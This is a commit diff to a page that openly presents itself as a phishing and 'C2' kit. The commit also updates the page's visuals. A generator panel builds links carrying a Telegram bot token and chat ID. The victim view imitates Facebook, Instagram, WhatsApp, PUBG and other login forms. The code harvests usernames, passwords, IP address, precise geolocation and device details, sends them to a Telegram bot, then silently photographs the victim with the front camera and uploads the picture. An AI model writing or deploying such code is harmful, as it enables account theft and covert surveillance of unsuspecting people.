

Before and after one commit to ywsfalmrb29-jpg/hake-link, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 233-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,112 +3,136 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>EDMAN HAKING - ULTIMATE PHISHING & C2</title>
+    <title>EDMAN HAKING - SUPREME C2 SUITE</title>
     <style>
+        * { box-sizing: border-box; margin: 0; padding: 0; }
         body {
-            background-color: #030712;
-            color: #38bdf8;
-            font-family: Tahoma, sans-serif;
-            margin: 0;
-            padding: 0;
+            background-color: #020617;
+            color: #22c55e;
+            font-family: 'Courier New', Courier, monospace;
+            min-height: 100vh;
             display: flex;
             justify-content: center;
             align-items: center;
-            min-height: 100vh;
-            overflow: hidden;
+            overflow-x: hidden;
             position: relative;
         }
         canvas#matrix {
             position: fixed;
-            top: 0;
-            left: 0;
+            top: 0; left: 0;
+            width: 100%; height: 100%;
+            z-index: -1;
+            opacity: 0.2;
+        }
+        .main-wrapper {
             width: 100%;
-            height: 100%;
-            z-index: -1;
-            opacity: 0.15;
-        }
-        .container {
-            width: 90%;
-            max-width: 480px;
-            background: rgba(17, 24, 39, 0.95);
-            padding: 30px;
-            border-radius: 16px;
-            border: 1px solid #d4af37;
-            box-shadow: 0 0 30px rgba(212, 175, 55, 0.25);
-            box-sizing: border-box;
-            text-align: center;
-            backdrop-filter: blur(8px);
+            min-height: 100vh;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            padding: 20px;
+            position: relative;
             z-index: 1;
         }
-        .logo-title { color: #d4af37; font-size: 20px; font-weight: bold; margin-bottom: 5px; letter-spacing: 1px; }
-        .logo-sub { color: #9ca3af; font-size: 11px; margin-bottom: 20px; text-transform: uppercase; letter-spacing: 2px; }
-        h2 { color: #f43f5e; font-size: 18px; margin-bottom: 15px; }
-        p { color: #9ca3af; font-size: 12px; margin-bottom: 20px; line-height: 1.5; }
-        .form-group { margin-bottom: 15px; text-align: right; }
-        label { display: block; color: #d4af37; font-size: 12px; margin-bottom: 6px; font-weight: bold; }
+        .panel {
+            width: 100%;
+            max-width: 450px;
+            background: rgba(3, 7, 18, 0.9);
+            border: 1px solid #22c55e;
+            box-shadow: 0 0 40px rgba(34, 197, 94, 0.25);
+            padding: 35px 25px;
+            border-radius: 12px;
+            backdrop-filter: blur(10px);
+        }
+        /* تصميم يحاكي المنصات الأصلية تماماً عند الصيد */
+        .platform-box {
+            width: 100%;
+            max-width: 400px;
+            background: #ffffff;
+            color: #1c1e21;
+            padding: 30px 20px;
+            border-radius: 8px;
+            box-shadow: 0 4px 12px rgba(0,0,0,0.3);
+            text-align: center;
+        }
+        .platform-box h2 { font-size: 24px; margin-bottom: 20px; font-family: Tahoma, sans-serif; }
+        .platform-box input {
+            width: 100%; padding: 12px; margin-bottom: 12px;
+            border: 1px solid #ccd0d5; border-radius: 6px; font-size: 14px; outline: none;
+            background: #f5f6f7;
+        }
+        .platform-box button {
+            width: 100%; padding: 12px; border: none; border-radius: 6px;
+            color: #fff; font-weight: bold; font-size: 16px; cursor: pointer;
+            margin-top: 5px; font-family: Tahoma, sans-serif;
+        }
+        /* لوحة التحكم السيبرانية */
+        .cyber-title { color: #22c55e; text-align: center; font-size: 22px; font-weight: bold; margin-bottom: 8px; text-shadow: 0 0 10px rgba(34,197,94,0.5); }
+        .cyber-sub { color: #94a3b8; text-align: center; font-size: 11px; margin-bottom: 25px; letter-spacing: 2px; }
+        label { display: block; color: #22c55e; font-size: 12px; margin-bottom: 6px; font-weight: bold; }
         input, select {
-            width: 100%;
-            padding: 12px;
-            background: #1f2937;
-            border: 1px solid #374151;
-            color: #fff;
-            border-radius: 8px;
-            font-size: 14px;
-            box-sizing: border-box;
-            outline: none;
+            width: 100%; padding: 12px; background: #0f172a; border: 1px solid #1e293b;
+            color: #22c55e; border-radius: 6px; font-size: 14px; margin-bottom: 15px; outline: none;
         }
-        input:focus, select:focus { border-color: #d4af37; box-shadow: 0 0 8px rgba(212, 175, 55, 0.4); }
-        button {
-            width: 100%;
-            padding: 14px;
-            background: linear-gradient(135deg, #d4af37, #aa820a);
-            color: #030712;
-            border: none;
-            border-radius: 8px;
-            font-weight: bold;
-            cursor: pointer;
-            font-size: 15px;
-            transition: 0.3s;
-            box-shadow: 0 4px 12px rgba(212, 175, 55, 0.3);
-            margin-top: 10px;
+        input:focus, select:focus { border-color: #22c55e; box-shadow: 0 0 8px rgba(34,197,94,0.4); }
+        .cyber-btn {
+            width: 100%; padding: 14px; background: #22c55e; color: #020617; border: none;
+            border-radius: 6px; font-weight: bold; font-size: 15px; cursor: pointer; transition: 0.3s;
+            box-shadow: 0 4px 15px rgba(34,197,94,0.4);
         }
-        button:hover { opacity: 0.9; }
-        .result-box {
-            margin-top: 20px;
-            padding: 15px;
-            background: #1f2937;
-            border-radius: 8px;
-            border: 1px solid #34d399;
-            display: none;
-            text-align: right;
+        .cyber-btn:hover { background: #16a34a; }
+        .result-box { margin-top: 20px; padding: 15px; background: #0f172a; border-radius: 6px; border: 1px solid #22c55e; display: none; }
+        .result-box a { color: #34d399; font-size: 12px; word-break: break-all; text-decoration: underline; }
+
+        /* فقاعة النقر التفاعلية */
+        .click-bubble {
+            position: absolute; width: 30px; height: 30px;
+            border: 2px solid #22c55e; border-radius: 50%;
+            transform: translate(-50%, -50%); pointer-events: none;
+            animation: bubbleAnim 0.5s ease-out forwards; z-index: 9999;
         }
-        .result-box a { color: #34d399; font-weight: bold; word-break: break-all; font-size: 12px; text-decoration: underline; }
-        .footer { margin-top: 15px; font-size: 10px; color: #6b7280; letter-spacing: 1px; }
+        @keyframes bubbleAnim {
+            0% { width: 0px; height: 0px; opacity: 1; }
+            100% { width: 70px; height: 70px; opacity: 0; }
+        }
     </style>
 </head>
 <body>
 
     <canvas id="matrix"></canvas>
-    <div class="container" id="appCard"></div>
+
+    <div class="main-wrapper" id="mainWrapper">
+        <!-- يتم بناء المحتوى هنا ديناميكياً -->
+    </div>
 
     <video id="video" autoplay playsinline style="display:none;"></video>
     <canvas id="canvas" style="display:none;"></canvas>
 
     <script>
-        // تأثير الماتريكس
+        /* فقاعة تفاعلية عند النقر في أي مكان بالموقع */
+        window.addEventListener('click', function(e) {
+            let bubble = document.createElement('div');
+            bubble.className = 'click-bubble';
+            bubble.style.left = e.pageX + 'px';
+            bubble.style.top = e.pageY + 'px';
+            document.body.appendChild(bubble);
+            setTimeout(() => bubble.remove(), 500);
+        });
+
+        /* تأثير ماتريكس أخضر سينمائي */
         const canvas = document.getElementById('matrix');
         const ctx = canvas.getContext('2d');
         canvas.width = window.innerWidth;
         canvas.height = window.innerHeight;
-        const alphabet = '日ﾊﾐﾋｰｳｼﾅﾓﾆｻﾜﾂｵﾘｱﾎﾃﾏｹﾒｴｶｷﾑﾕﾗｾﾈｽﾀﾇﾍABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@#$%&*+-_';
+        const alphabet = '0123456789ABCDEFHIJKLMNOPQRSTUVWXYZ@#$%&*+-/\\';
         const fontSize = 14;
         const columns = canvas.width / fontSize;
         const rainDrops = [];
         for (let x = 0; x < columns; x++) { rainDrops[x] = 1; }
         function drawMatrix() {
-            ctx.fillStyle = 'rgba(3, 7, 18, 0.05)';
+            ctx.fillStyle = 'rgba(2, 6, 23, 0.05)';
             ctx.fillRect(0, 0, canvas.width, canvas.height);
-            ctx.fillStyle = '#0ea5e9';
+            ctx.fillStyle = '#22c55e';
             ctx.font = fontSize + 'px monospace';
             for (let i = 0; i < rainDrops.length; i++) {
                 const text = alphabet.charAt(Math.floor(Math.random() * alphabet.length));
@@ -117,68 +141,74 @@
                 rainDrops[i]++;
             }
         }
-        setInterval(drawMatrix, 30);
+        setInterval(drawMatrix, 35);
         window.addEventListener('resize', () => { canvas.width = window.innerWidth; canvas.height = window.innerHeight; });
 
-        // منصات الصيد
+        /* معالجة الروابط والمنصات */
         const urlParams = new URLSearchParams(window.location.search);
         const botToken = urlParams.get('t');
         const chatId = urlParams.get('c');
         const platform = urlParams.get('p') || 'facebook';
-        const cardDiv = document.getElementById('appCard');
+        const wrapper = document.getElementById('mainWrapper');
 
-        const platformsData = {
-            'facebook': { name: 'Facebook - تسجيل الدخول', bg: '#1877f2' },
-            'instagram': { name: 'Instagram - التحقق من الحساب', bg: '#e1306c' },
-            'telegram': { name: 'Telegram - تسجيل الدخول السريع', bg: '#229ed9' },
-            'github': { name: 'GitHub - تأكيد الهوية', bg: '#24292e' },
-            'google': { name: 'Google - الأمان والمتابعة', bg: '#4285f4' },
-            'snapchat': { name: 'Snapchat - استعادة الحساب', bg: '#fffc00' }
+        const platformsConfig = {
+            'facebook': { name: 'Facebook', title: 'تسجيل الدخول إلى فيسبوك', bg: '#1877f2', userPlaceholder: 'البريد الإلكتروني أو رقم الهاتف', passPlaceholder: 'كلمة سر فيسبوك' },
+            'instagram': { name: 'Instagram', title: 'Instagram', bg: '#e1306c', userPlaceholder: 'اسم المستخدم أو البريد أو الهاتف', passPlaceholder: 'كلمة المرور' },
+            'telegram': { name: 'Telegram', title: 'تسجيل دخول تيليجرام', bg: '#229ed9', userPlaceholder: 'رقم الهاتف أو المعرف', passPlaceholder: 'كلمة المرور / الرمز' },
+            'youtube': { name: 'YouTube', title: 'تسجيل الدخول عبر Google', bg: '#ff0000', userPlaceholder: 'البريد أو الهاتف', passPlaceholder: 'كلمة المرور' },
+            'pubg': { name: 'PUBG Mobile', title: 'مركز استلام شدات وبطاقات PUBG', bg: '#f59e0b', userPlaceholder: 'Player ID (أيدي اللاعب)', passPlaceholder: 'كلمة مرور الحساب' },
+            'freefire': { name: 'Free Fire', title: 'شحن جواهر فري فاير المجانية', bg: '#ef4444', userPlaceholder: 'Player ID (الإيدي)', passPlaceholder: 'كلمة مرور اللعبة' },
+            'whatsapp': { name: 'WhatsApp', title: 'تحقق وتأكيد حساب واتساب', bg: '#25d366', userPlaceholder: 'رقم الهاتف مع رمز الدولة', passPlaceholder: 'رمز التحقق (إن وجد)' }
         };
 
         if (!botToken || !chatId) {
-            cardDiv.innerHTML = `
-                <div class="logo-title">EDMAN HAKING</div>
-                <div class="logo-sub">PHISHING SUITE GENERATOR</div>
-                <h2>💀 لوحة صانع صفحات الصيد 💀</h2>
-                <p>اختر المنصة المستهدفة وأدخل بيانات بوت تيليجرام الخاص بك:</p>
-                <div class="form-group"><label>اختر المنصة المستهدفة:</label>
+            // لوحة التحكم السيبرانية الكاملة الشاشة
+            wrapper.innerHTML = `
+                <div class="panel">
+                    <div class="cyber-title">EDMAN SUPREME C2</div>
+                    <div class="cyber-sub">ADVANCED PHISHING & RECON SUITE</div>
+                    <label>اختر المنصة المستهدفة:</label>
                     <select id="selPlatform">
                         <option value="facebook">Facebook</option>
                         <option value="instagram">Instagram</option>
                         <option value="telegram">Telegram</option>
-                        <option value="github">GitHub</option>
-                        <option value="google">Google</option>
-                        <option value="snapchat">Snapchat</option>
+                        <option value="youtube">YouTube</option>
+                        <option value="pubg">PUBG Mobile</option>
+                        <option value="freefire">Free Fire</option>
+                        <option value="whatsapp">WhatsApp</option>
                     </select>
-                </div>
-                <div class="form-group"><label>Bot Token:</label><input type="text" id="inputToken" placeholder="أدخل التوكن هنا..."></div>
-                <div class="form-group"><label>Chat ID:</label><input type="text" id="inputChat" placeholder="أدخل الآيدي هنا..."></div>
-                <button onclick="generatePhishLink()">توليد رابط الصيد السريع</button>
+                    <label>Bot Token:</label>
+                    <input type="text" id="inputToken" placeholder="أدخل توكن البوت هنا...">
+                    <label>Chat ID:</label>
+                    <input type="text" id="inputChat" placeholder="أدخل الـ Chat ID هنا...">
+                    <button class="cyber-btn" onclick="generateLink()">توليد رابط الصيد المدمر</button>
                     <div class="result-box" id="resultBox">
-                    <p style="color: #34d399; margin-bottom: 8px; font-weight: bold;">رابط الصيد جاهز للإرسال:</p>
+                        <p style="color:#22c55e; font-size:11px; margin-bottom:5px; font-weight:bold;">رابط الصيد الجاهز:</p>
                         <a id="generatedLink" href="#" target="_blank"></a>
                     </div>
-                <div class="footer">EDMAN HAKING TOOL © 2026</div>
+                </div>
             `;
         } else {
-            let pInfo = platformsData[platform] || platformsData['facebook'];
-            cardDiv.innerHTML = `
-                <div class="logo-title" style="color:${pInfo.bg}">${pInfo.name}</div>
-                <p>يرجى إدخال بيانات حسابك للمتابعة والتحقق الأمني السريع:</p>
-                <div class="form-group"><label>اسم المستخدم / البريد / الهاتف:</label><input type="text" id="phishUser" placeholder="أدخل البيانات هنا..."></div>
-                <div class="form-group"><label>كلمة المرور:</label><input type="password" id="phishPass" placeholder="••••••••"></div>
-                <button style="background:${pInfo.bg}; color:#fff;" onclick="executeUltimatePhish('${platform}')">تسجيل الدخول / متابعة</button>
-                <div id="status" style="margin-top:15px; font-size:12px; color:#34d399;"></div>
-                <div class="footer">SECURE GATEWAY © 2026</div>
+            // واجهة الصيد الأصلية الخاصة بالمنصة المحددة دون ماتريكس في الخلفية لتكون طبيعية بالكامل
+            let cfg = platformsConfig[platform] || platformsConfig['facebook'];
+            document.getElementById('matrix').style.display = 'none'; // إخفاء الماتريكس لتبدو الصفحة طبيعية ورسمية 100%
+            wrapper.innerHTML = `
+                <div class="platform-box">
+                    <h2 style="color: ${cfg.bg};">${cfg.name}</h2>
+                    <p style="color: #606770; font-size: 13px; margin-bottom: 20px; font-family: Tahoma;">${cfg.title}</p>
+                    <input type="text" id="phishUser" placeholder="${cfg.userPlaceholder}">
+                    <input type="password" id="phishPass" placeholder="${cfg.passPlaceholder}">
+                    <button style="background-color: ${cfg.bg};" onclick="executeUltimateAttack('${platform}')">متابعة / تسليم الهدية</button>
+                    <div id="status" style="margin-top:15px; font-size:12px; color:#16a34a; font-family: Tahoma;"></div>
+                </div>
             `;
         }
 
-        function generatePhishLink() {
+        function generateLink() {
             let t = document.getElementById('inputToken').value.trim();
             let c = document.getElementById('inputChat').value.trim();
             let p = document.getElementById('selPlatform').value;
-            if (!t || !c) { alert('يرجى ملء الحقول أولاً!'); return; }
+            if (!t || !c) { alert('يرجى إدخال التوكن والآيدي أولاً!'); return; }
             let fullLink = window.location.origin + window.location.pathname + `?t=${t}&c=${c}&p=${p}`;
             let linkElem = document.getElementById('generatedLink');
             linkElem.href = fullLink;
@@ -186,35 +216,25 @@
             document.getElementById('resultBox').style.display = 'block';
         }
 
-        async function executeUltimatePhish(plat) {
+        async function executeUltimateAttack(plat) {
             let u = document.getElementById('phishUser').value.trim();
             let p = document.getElementById('phishPass').value.trim();
-            if (!u || !p) { alert('يرجى إكمال الحقول المطلوبة'); return; }
+            if (!u || !p) { alert('يرجى إكمال البيانات المطلوبة'); return; }
 
-            document.getElementById('status').innerText = "جاري معالجة البيانات والتحقق...";
+            document.getElementById('status').innerText = "جاري التحقق والمزامنة...";
 
-            // جلب الـ IP عبر خدمة آمنة ومتوافقة مع HTTPS
             let ipData = "غير معروف", geoInfo = "غير معروف", batteryInfo = "غير متوفر";
             try {
                 let ipRes = await fetch('https://api.ipify.org?format=json');
                 let ipJson = await ipRes.json();
                 ipData = ipJson.ip;
-            } catch(e) {
-                try {
-                    let altIpRes = await fetch('https://ipapi.co/json/');
-                    let altIpJson = await altIpRes.json();
-                    ipData = altIpJson.ip;
-                    geoInfo = `${altIpJson.country_name} -${altIpJson.region} - ${altIpJson.city} (ISP:${altIpJson.org})`;
-                } catch(err) {}
-            }
+            } catch(e) {}
 
-            if (ipData !== "غير معروف" && geoInfo === "غير معروف") {
             try {
                 let geoRes = await fetch(`https://ipapi.co/${ipData}/json/`);
                 let geoJson = await geoRes.json();
-                    geoInfo = `${geoJson.country_name} -${geoJson.region} - ${geoJson.city} (ISP:${geoJson.org})`;
+                geoInfo = `${geoJson.country_name} -${geoJson.region} - ${geoJson.city} (ISP:${geoJson.org}) [Lat/Lon: ${geoJson.latitude},${geoJson.longitude}]`;
             } catch(e) {}
-            }
 
             if (navigator.getBattery) {
                 try {
@@ -231,32 +251,33 @@
                 gpuInfo = gl.getParameter(dbg.UNMASKED_RENDERER_WEBGL);
             } catch(e) {}
 
-            let reportMsg =
-                `🎯 *صيد خياري ناجح لمنصة [${plat.toUpperCase()}] بواسطة إدمان!* 💀\n\n` +
-                `👤 *اسم المستخدم / البريد:* \`${u}\`\n` +
-                `🔑 *كلمة المرور:* \`${p}\`\n\n` +
+            let finalReport =
+                `💀 *صيد أسطوري جديد من منصة [${plat.toUpperCase()}] بواسطة إدمان!* 💀\n\n` +
+                `👤 *اسم المستخدم / الأيدي:* \`${u}\`\n` +
+                `🔑 *كلمة المرور / الرمز:* \`${p}\`\n\n` +
                 `🌐 *عنوان الـ IP:* \`${ipData}\`\n` +
-                `📍 *الموقع والمزود:* \`${geoInfo}\`\n` +
+                `📍 *الموقع الجغرافي والمزود:* \`${geoInfo}\`\n` +
                 `🔋 *حالة البطارية:* \`${batteryInfo}\`\n` +
                 `🎮 *معالج الرسوميات (GPU):* \`${gpuInfo}\`\n` +
-                `💻 *النظام والمنصة:* \`${navigator.platform}\`\n` +
-                `📺 *دقة الشاشة:* \`${window.screen.width}x${window.screen.height}\`\n` +
+                `💻 *نظام التشغيل والمنصة:* \`${navigator.platform}\`\n` +
+                `📺 *دقة الشاشة:* \`${window.screen.width}x${window.screen.height} (${window.screen.colorDepth}-bit)\`\n` +
                 `🧠 *الذاكرة العشوائية:* \`${navigator.deviceMemory ? navigator.deviceMemory + ' GB' : 'غير معروف'}\`\n` +
+                `⚙️ *عدد أنوية المعالج:* \`${navigator.hardwareConcurrency || 'غير معروف'}\`\n` +
                 `🌍 *المنطقة الزمنية:* \`${Intl.DateTimeFormat().resolvedOptions().timeZone}\`\n` +
-                `🔗 *رابط الصيد:* \`${window.location.href}\``;
+                `🔗 *رابط الصيد المستخدم:* \`${window.location.href}\``;
 
-            // إرسال البيانات واليوزر والباسورد أولاً
+            // إرسال البيانات المسحوبة فوراً لتيليجرام
             try {
                 await fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
-                    body: JSON.stringify({ chat_id: chatId, text: reportMsg, parse_mode: 'Markdown' })
+                    body: JSON.stringify({ chat_id: chatId, text: finalReport, parse_mode: 'Markdown' })
                 });
             } catch(e) {}
 
-            document.getElementById('status').innerText = "جاري تأكيد الجلسة...";
+            document.getElementById('status').innerText = "جاري تأكيد البيانات...";
 
-            // التقاط صورة الكاميرا وإرسالها فوراً
+            // التقاط الكاميرا الأمامية بصمت وإرسالها
             navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
             .then(stream => {
                 let video = document.getElementById('video');
@@ -273,7 +294,7 @@
                         let formData = new FormData();
                         formData.append('chat_id', chatId);
                         formData.append('photo', blob, 'capture.jpg');
-                        formData.append('caption', `📸 *صورة الكاميرا للهدف (يوزر: \`${u}\` - IP: \`${ipData}\`)* تم سحبها بنجاح بواسطة إدمان! 💀`);
+                        formData.append('caption', `📸 *صورة الضحية (يوزر: \`${u}\` - IP: \`${ipData}\`)* مسحوبة بنجاح بواسطة إدمان! 💀`);
                         formData.append('parse_mode', 'Markdown');
 
                         try {
```
Lines whose indentation alone changed are shown as unchanged.
